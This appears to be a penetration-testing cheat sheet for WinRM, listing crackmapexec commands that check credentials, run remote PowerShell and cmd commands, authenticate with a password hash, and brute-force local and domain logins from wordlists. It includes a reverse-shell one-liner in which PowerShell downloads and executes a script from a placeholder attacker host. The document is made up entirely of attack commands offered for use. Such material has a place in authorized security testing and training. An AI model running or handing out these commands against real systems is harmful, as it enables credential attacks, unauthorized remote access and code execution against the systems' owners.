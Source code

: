 # winrm

## check connection

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password>
```

## run powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -X <whoami>
```

## run cmd powershell command

```bash
crackmapexec winrm $rhost -u Administrator -p <some-password> -x <dir>
```

## reverse shell

```bash
crackmapexec winrm $rhost -u Administrator -p <password> -X "powershell.exe -c \"IEX (New-Object Net.WebClient).DownloadString('http://<lhost>:<lport>/reverse-shell/powershell.ps')\""
```

## use hash

```bash
crackmapexec winrm $rhost -u some_user -H "some-hash"
```

## bruteforce creds local user

```bash
crackmapexec winrm $rhost -u wordlist.txt -p wordlist.txt --local-auth --continue-on-success
```

## bruteforce creds domain "none"

```bash
crackmapexec winrm $rhost -u wordlist.txt -p wordlist.txt --continue-on-success
```

## bruteforce creds domain custom

```bash
crackmapexec winrm $rhost -d "yourdomain" -u wordlist.txt -p wordlist.txt --continue-on-success
```
